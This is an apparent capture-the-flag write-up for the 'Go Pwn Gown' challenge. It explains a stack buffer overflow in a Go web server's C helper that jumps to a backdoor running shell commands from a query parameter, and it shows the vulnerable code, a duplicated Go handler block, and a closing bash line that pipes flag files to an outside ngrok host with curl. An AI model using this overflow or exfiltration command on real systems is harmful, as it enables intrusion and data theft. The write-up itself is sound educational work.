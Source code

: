 # Go Pwn Gown (day7)

<p align="justify">This challenge was a Pwn challenge in which the goal was to perform a buffer overflow on a website to read the flag stored on the server. Source code was provided with a docker file so that the server could have been ran locally, which revealed very helpful insofar as I had access to server logs. </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> Looking at source code, it seemed that a backdoor was already included in the code of the running server. This backdoor shown in the snippet below could have been used to run command remotely : </p>

````c
void unsafeFunction(char *gown) {
    char buffer[64];
    memcpy(buffer, gown, 128); // UTF8 AMIRIGHT ?!
    printf("Received: %s\n", buffer);
}

void laluBackdoor() {
    char *bash_path = "/bin/bash";
    extern char **environ;
    execle(bash_path, bash_path, "-c", "echo $(${GOWN})", NULL, environ);
}
````

The flaw here was caused by the use of a buffer of size 64 in which 128 bytes were copied. The parameter gown was read from the website and then handled thanks to the function below, calling the unsafeFunction() containing the weakness : 

````c
func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````func handleRequest(w http.ResponseWriter, r *http.Request) {
	log.Println("Calling handleRequest")
	defer func() {
		log.Println(r.URL.Path)
		gown := r.URL.Query().Get("gown")
		if gown == "" {
			http.Error(w, "Gown parameter is missing", http.StatusBadRequest)
			return
		}

		cGown := C.CString(gown)
		if i := strings.IndexByte(gown, '\x00'); i != -1 {
			gown = gown[:i]
		}
		os.Setenv("GOWN", string(gown))
		fmt.Println("Getenv(GOWN) = ", os.Getenv("GOWN"))
		defer C.free(unsafe.Pointer(cGown))

		C.unsafeFunction(cGown)
		// C.laluBackdoor()
		w.Write([]byte("Request handled\n"))
	}()
}
````

To exploit it, I started by running the docker on my machine to adjust my payload using the logs. I developped a tiny C script avalible under exploit.c in this repo, to guess the number of chars I had to sent before overwritte ret address on the stack. It came that I had to sent 72 char before being able to overwritte the ret address and access 

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="center"><img src="Screenshots/S5.png" alt="Desc"></p>

````bash
#!/bin/bash
cat /flag/* | curl -X POST --data @- http://6.tcp.eu.ngrok.io:13524/
````

Flag : _RM{OffenSkillSaysWhat2024YouGotGowned}_ , thanks _Laluka_ for this challenge !
